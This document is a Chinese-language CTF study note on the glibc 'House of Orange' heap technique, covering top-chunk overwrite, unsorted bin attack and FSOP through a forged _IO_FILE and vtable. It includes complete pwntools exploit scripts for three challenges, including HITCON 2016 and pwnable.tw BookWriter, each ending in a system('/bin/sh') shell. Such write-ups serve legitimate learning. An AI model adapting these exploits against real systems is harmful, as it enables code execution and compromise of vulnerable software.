







[House of Orange - CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-orange/)

利用条件：

- 没有free
- 可以 `unsortedbin attack`

原理：

> 核心在于在没有 free 函数的情况下得到一个释放的堆块 (unsorted bin)。
> 

这种操作的原理简单来说是当前堆的 top chunk 尺寸不足以满足申请分配的大小的时候，原来的 top chunk 会被释放并被置入 unsorted bin 中，通过这一点可以在没有 free 函数情况下获取到 unsorted bins。

在ptmalloc的源码如下：

```c
/*
Otherwise, relay to handle system-dependent cases
*/
else {
      void *p = sysmalloc(nb, av);
      if (p != NULL && __builtin_expect (perturb_byte, 0))
        alloc_perturb (p, bytes);
      return p;
}
```

可以通过sysmalloc函数将top chunk返回到bin中

# Unsorted bin Attack

关键部分代码：
这里借用了一下网上的图



```c
victim = unsorted_chunks (av)->bk    // unsorted_chunks (av)是指main_arena+88这个chunk
bck = victim->bk         // victim现在是chunk3，bck是chunk2地址
unsorted_chunks (av)->bk = bck
bck->fd = unsorted_chunks (av)   // bck+0x10的地址会保存unsorted_chunks (av)地址
```

[关于house of orange(unsorted bin attack &&FSOP)的学习总结 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/16712469.html)

# House of Orange

今夜，就要彻底弄懂house of orange！

关于堆的部分在下面题目中已经体现，这里暂且不表

这里有个`houseoforange_hitcon_2016` 的exp：

```python
from pwn import *

url, port = "node5.buuoj.cn", 27641
filename = "./pwn"
elf = ELF(filename)
libc = ELF('./libc-2.23.so') # local
# libc = ELF("./libc64-2.23.so") # remote
context(arch="amd64", os="linux")
ld_path = 'ld-2.23.so'
targetELF = './pwn'
libc_path = './libc-2.23.so'
local = 1
if local:
    context.log_level = "debug"
    io = process(filename)
    # io = process([ld_path, targetELF],env={"LD_PRELOAD":libc_path})
else:
    io = remote(url, port)

def B():
    gdb.attach(io)
    pause()
    
lf = lambda addrstring, address: log.info('{}: %#x'.format(addrstring), address)

def build(length, name, price, color):
    io.sendlineafter("Your choice :", "1")
    io.sendlineafter("Length of name :", str(length))
    io.sendafter("Name :", name)
    io.sendlineafter("Price of Orange:", str(price))
    io.sendlineafter("Color of Orange:", str(color))

def upgrade(length, name, price, color):
    io.sendlineafter("Your choice :", "3")
    io.sendlineafter("Length of name :", str(length))
    io.sendafter("Name:", name)
    io.sendlineafter("Price of Orange: ", str(price))
    io.sendlineafter("Color of Orange:", str(color))

def pwn():
    build(0x30, 'ffff\n', 233, 56746) # chunk0
    # heap overflow to overwrite top chunk size
    payload = cyclic(0x30) + p64(0) + p64(0x21) + p32(233) + p32(56746)
    payload += p64(0) * 2 + p64(0xf81)
    
    upgrade(len(payload), payload, 233, 56746) # size must be page aligned

    # sysmalloc() free the old top chunk into unsorted bin
    build(0x1000, 'f\n', 233, 56746) # chunk1
    build(0x400, 'f'*8, 666, 2) # chunk2
    # leak libc 
    io.sendlineafter("Your choice :", "2")
    io.recvuntil('f'*8)
    malloc_hook = u64(io.recvuntil('\x7f').ljust(8, b'\x00')) - 0x678
    lf('malloc_hook', malloc_hook)
    libc.address = malloc_hook - libc.sym['__malloc_hook']
    lf('libc base address', libc.address)
    _IO_list_all = libc.sym['_IO_list_all']
    system_addr = libc.sym['system']
    lf('_IO_list_all', _IO_list_all)
    lf('system_addr', system_addr)

    # leak heap
    upgrade(0x10, 'f'*0x10, 666, 2)
    io.sendlineafter("Your choice :", "2")
    io.recvuntil('f'*0x10)
    heap_addr = u64(io.recvuntil('\n', drop=True).ljust(8, b'\x00')) 
    heap_base = heap_addr - 0xE0
    lf('heap_base', heap_base)
    
    # FSOP
    orange = b'/bin/sh\x00' + p64(0x61)             # _IO_list_all
    orange += p64(0) + p64(_IO_list_all - 0x10)     
    orange += p64(0) + p64(1)
    orange = orange.ljust(0xc0, b'\x00')            
    orange += p64(0) * 3                            # mode 
    orange += p64(heap_base + 0x5E8)                # vtable
    orange += p64(0) * 2 + p64(system_addr) 

    payload = cyclic(0x400) + p64(0) + p64(0x21) + p32(233) + p32(56746) 
    payload += p64(0) + orange
    gdb.attach(io,'finish\n'*2)
    upgrade(len(payload), payload, 233, 56746)

    io.sendlineafter('Your choice : ', '1')

if __name__ == "__main__":
    pwn()
    io.interactive()

```

## 利用的结构体

利用的结构体：

### `_IO_list_all`

`_IO_list_all` 是一个 `_IO_FILE_plus`结构体定义的一个指针，存在于`libc`中



```c
0x0   _flags
0x8   _IO_read_ptr
0x10  _IO_read_end
0x18  _IO_read_base
0x20  _IO_write_base
0x28  _IO_write_ptr
0x30  _IO_write_end
0x38  _IO_buf_base
0x40  _IO_buf_end
0x48  _IO_save_base
0x50  _IO_backup_base
0x58  _IO_save_end
0x60  _markers
0x68  _chain
0x70  _fileno
0x74  _flags2
0x78  _old_offset
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```

### `vtable`

`_IO_jump_t` 类型的指针，保存一些函数指针，这些函数用于每个FILE结构体；FILE结构体会通过`struct _IO_FILE *_chain`链接成一个链表

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};

```

### House of orange在io方面的逻辑：

- 利用内存错误出现的函数：
    
    `glibc` 中的异常处理。一般在出现内存错误时，会调用函数 `malloc_printerr()` 打印出错信息
    
    ```c
    static void
    malloc_printerr (int action, const char *str, void *ptr, mstate ar_ptr)
    {
      [...]
      if ((action & 5) == 5)
        __libc_message (action & 2, "%s\n", str);  # 这里继续调用
      else if (action & 1)
        {
          char buf[2 * sizeof (uintptr_t) + 1];
          buf[sizeof (buf) - 1] = '\0';
          char *cp = _itoa_word ((uintptr_t) ptr, &buf[sizeof (buf) - 1], 16, 0);
          while (cp > buf)
            *--cp = '0';
          __libc_message (action & 2, "*** Error in `%s': %s: 0x%s ***\n",
                          __libc_argv[0] ? : "<unknown>", str, cp);
        }
      else if (action & 2)
        abort ();
    }
    ```
    
- 然后进入`__libc_message` ：
    
    ```c
    // sysdeps/posix/libc_fatal.c
    /* Abort with an error message.  */
    void
    __libc_message (int do_abort, const char *fmt, ...)
    {
      [...]
      if (do_abort)
        {
          BEFORE_ABORT (do_abort, written, fd);
          /* Kill the application.  */
          abort ();   # 这里继续调用
        }
    }
    ```
    
- `do_abort` 调用 `fflush`，即 `_IO_flush_all_lockp`：
    
    ```c
    // stdlib/abort.c
    #define fflush(s) _IO_flush_all_lockp (0)
      if (stage == 1)
        {
          ++stage;
          fflush (NULL);
        }
    ```
    
    > 当发生内存错误进入 `_IO_flush_all_lockp` 后，`_IO_list_all` 仍然指向 unsorted bin，这并不是一个我们能控制的地址。所以需要通过 `fp->_chain` 来将`fp` 指向我们能控制的地方。
    所以将 size 字段设置为 0x61，因为此时 `_IO_list_all` 是 `&unsorted_bin-0x10`，偏移 0x60 位置上是 `smallbins[5]`。此时，如果触发一个不适合的 small chunk 分配，malloc 就会将 old top 从 unsorted bin 放回 `smallbins[5]` 中。而在 `_IO_FILE` 结构中，偏移 0x60 指向 `struct _IO_marker *_markers`，偏移 0x68 指向 `struct _IO_FILE *_chain`，这两个值正好是 old top 的起始地址。这样 fp 就指向了 old top，这是一个我们能够控制的地址。
    > 
- 在将 `_IO_OVERFLOW` 修改为 system 的时候，有一些条件检查：
    
    ```c
          if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
    #if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
           || (_IO_vtable_offset (fp) == 0
               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                        > fp->_wide_data->_IO_write_base))
    #endif
           )
          && _IO_OVERFLOW (fp, EOF) == EOF)     // 需要修改为 system 函数
    ```
    
    所以：
    
    `fp->_mode = 0`，`fp->_IO_write_base = (char *) 2` 和 `fp->_IO_write_ptr = (char *) 3`
    
    (`fp->_IO_write_base` 比`fp->_IO_write_ptr` 小即可）
    
- **将`vtable`中的`_IO_overflow`函数地址改成`system`地址即可**，而这个函数的第一个参数就是IO_FILE结构体的地址，因此我们让IO_FILE结构体中的flags成员为/bin/sh字符串，

所以一般对_IO_list_all的构造：

```c
    # FSOP
    orange = b'/bin/sh\x00' + p64(0x61)             # _IO_list_all
    orange += p64(0) + p64(_IO_list_all - 0x10)     
    orange += p64(0) + p64(1)                       # _IO_write_base < _IO_write_ptr 
    orange = orange.ljust(0xc0, b'\x00')            
    orange += p64(0) * 3                            # mode 
    orange += p64(heap_base + 0x5E8)                # vtable,其中0x5E8只是：0x510+0xc0+0x18
    orange += p64(0) * 2 + p64(system_addr) 
```

将这个伪造至在`unsorted bin`中的那个chunk上，一旦发生malloc就会直接导致chunk进入small bin，这样也会导致直接可以进行

# 例题

## pwnable.tw：**BookWriter**

pwnable好像也是比较出名的靶场，以后可以做做

这也是一个house of orange，使用起来其实和上一道题一样，但是也是算是我自己实现的House of Orange

### ida_pro 反汇编





- 漏洞：可以看到add函数可以多add一个chunk，这就是利用所在

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')
context.log_level = 'debug'

def add(length,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b"Size of page :",str(length))
    io.sendafter(b"Content :",content)

def show(index):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'page :',str(index))

def edit(index,content):
    io.sendlineafter(b'choice :',b'3')
    io.sendlineafter(b"Index of page :",str(index))
    io.sendlineafter(b"Content:",content)

def print_author():
    io.sendlineafter(b'choice :',b'4')
    io.recvuntil(b'BB')
    heap_addr = u64(io.recvuntil('\x0a',drop=True).ljust(8,b'\x00'))-0x10
    info(f'{heap_addr = :x}')
    io.sendlineafter(b'no:0) ',b'0')
    return heap_addr

# io = process('./pwn')
io = remote('chall.pwnable.tw',10304)
libc = ELF('./libc_64.so.6')
io.sendlineafter(b'Author :',b'a'*0x3e+b'BB')

# 可以多add一个chunk，这个chunk正是第一个chunk的size的array
# 将第一个size变成0，这样就可以add一个地址
add(0x0,'')
for _ in range(8):
    add(0x10,'aaaaa')

payload = b'a'*0x18+p64(0x21)
payload += b'b'*0x18+p64(0x21)
payload += b'c'*0x18+p64(0x21)
payload += b'd'*0x18+p64(0x21)
payload += b'e'*0x18+p64(0x21)
payload += b'f'*0x18+p64(0x21)
payload += b'g'*0x18+p64(0x21)
payload += b'h'*0x18+p64(0x21)
payload += b'i'*0x18+p64(0xee1)    # top chunk

# top chunk overwriting 这个地方可以将其他地方都覆盖，一直覆盖到top chunk
edit(0,payload)

# 获取heap_addr,因为输入使用的read函数，所以末尾不是\0
# 因为print_author中有scanf函数，scanf会自动生成一个0x1000的heap chunk
# 所以直接就满足了House of Orange
heap_addr = print_author() 
info(f'{heap_addr=:x}')

# flush the 9th ptr
edit(0,'')
add(0x20,'ethanyi9')

payload = b'a'*0x18+p64(0x21)
payload += b'b'*0x18+p64(0x21)
payload += b'c'*0x18+p64(0x21)
payload += b'd'*0x18+p64(0x21)
payload += b'e'*0x18+p64(0x21)
payload += b'f'*0x18+p64(0x21)
payload += b'g'*0x18+p64(0x21)
payload += b'h'*0x20
payload += b'i'*0x18+p16(0x0ec1)+p16(0xaaaa)+p32(0xdeadbeef) # top chunk

# --------edit(0,payload)----------
io.sendlineafter(b'choice :',b'3')
io.sendlineafter(b"Index of page :",str(0))
io.sendafter(b"Content:",payload)

show(7)
main_arena = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 1640
malloc_hook = main_arena-0x10
libc.address = malloc_hook - libc.sym['__malloc_hook']
_IO_list_all = libc.sym['_IO_list_all']
system_addr = libc.sym['system']

info(f'{libc.address=:x}')
info(f'{_IO_list_all=:x}')
info(f'{main_arena =:x}')

edit(0,'')
add(0x20,'ethanyi9')

# FSOP
orange = b'/bin/sh\x00' + p64(0x61)           # _IO_list_all
orange += p64(0) + p64(_IO_list_all - 0x10)     
orange += p64(2) + p64(3)                     # _IO_write_base < _IO_write_ptr 
orange = orange.ljust(0xc0, b'\x00')            
orange += p64(0) * 3                          # mode 
orange += p64(heap_addr+0x180+0xc0+0x18)      # vtable指针,其中：top_chunk_addr+0xc0+0x18
orange += p64(0) * 2 + p64(system_addr) 
 
payload = b'a'*0x18+p64(0x21)
payload += b'b'*0x18+p64(0x21)
payload += b'c'*0x18+p64(0x21)
payload += b'd'*0x18+p64(0x21)
payload += b'e'*0x18+p64(0x21)
payload += b'f'*0x18+p64(0x21)
payload += b'g'*0x18+p64(0x21)
payload += b'h'*0x18+p64(0x81)
payload += b'i'*0x70
payload += orange

io.sendlineafter(b'choice :',b'3')
io.sendlineafter(b"Index of page :",str(0))

io.sendafter(b"Content:",payload)

edit(0,'')

# 这里不知道为啥，使用add(0x60,'ethanyi')就不行，只能直接调用io的函数
io.sendlineafter(b'choice :',b'1')
io.sendlineafter(b"Size of page :",str(0x60)) # 这里满足一个malloc就行

io.interactive()
```

## ciscn 2024 — 1-orange_cat_diary

这是国赛的签到题，因为涉及到house of orange所以我来看看

但是实际上涉及到的只有和堆相关的部分，并无IO

打开反编译文件：



经典堆题，del中有UAF，但是**限制了show和del的次数只有一次**



如果没有这个限制，那是可以直接指定unsorted bin的main_arena来泄露libc，然后fastbin attack（2.23版本的libc甚至没有tcache），但这样肯定就不止del一次chunk

这里就使用到了house of orange的知识：

- **将Top chunk的长度修改，然后申请一个比修改长度更大的chunk，这样可以让old Top chunk被放置于unsorted bin中**，节省一次del

以下是exp：

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

def add(length,content):
    io.sendlineafter(b'choice:',b'1')
    io.sendlineafter(b"length of the diary content:",str(length))
    io.sendlineafter(b"the diary content:\n",content)

def show():
    io.sendlineafter(b'choice:',b'2')

def delete():
    io.sendlineafter(b'choice:',b'3')

def edit(size,content):
    io.sendlineafter(b'choice:',b'4')
    io.sendlineafter(b'content:',str(size).encode())
    io.sendlineafter(b'content:\n',content)

io = process('./pwn')
libc = ELF('./libc-2.23.so')
context.log_level = 'debug'

io.sendlineafter(b' name.\n',b'aaa')
io.recvuntil(b'stories.\n')

add(0x18,'aaaa')
# 修改Top chunk的大小，注意这个大小与top chun k的地址相加需要满足页对齐，也就是0x1000(4k)的地址对其
edit(0x20,p64(0)*3+p64(0xfe1))  
add(0x1000,'thanyi1')

add(0x500,'thanyi2')
show()
some_main_arena = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

# libc base 永远和main_arena的偏移是固定的
libc.address = some_main_arena-0x3c5188
ogg = libc.address+ 0xf03a4
malloc_hook = libc.sym['__malloc_hook'] # malloc_hook其实就是main_arena-0x10

info(f'{libc.address =:x}')
info(f'{malloc_hook =:x}')

add(0x60,'thanyi3')
delete()
# gdb.attach(io,'finish\n'*2)

# edit(0x60,p64(malloc_hook-0x23))  # 这里是为了让fastbin中的fake_chunk保持一个chunk构造
# add(0x60,'thanyi4')
# gdb.attach(io,'finish\n'*2)
# add(0x60,b'\x00'*0x13+p64(ogg))

edit(0x60,p64(malloc_hook-0xb)) # 这里是为了让fastbin中的fake_chunk保持一个chunk构造
add(0x60,'thanyi4')
# gdb.attach(io,'finish\n'*2)
add(0x60,b'\x00'*0xb+p64(ogg))

io.sendlineafter(b'choice:',b'1')
io.sendlineafter(b'content:',b'')
io.interactive()
```

- 为什么是`malloc_hook-0xb`和`malloc_hook-0x23` ？

因为在如此情况下：



保持了一个栈结构，`prev_inuse`的值为1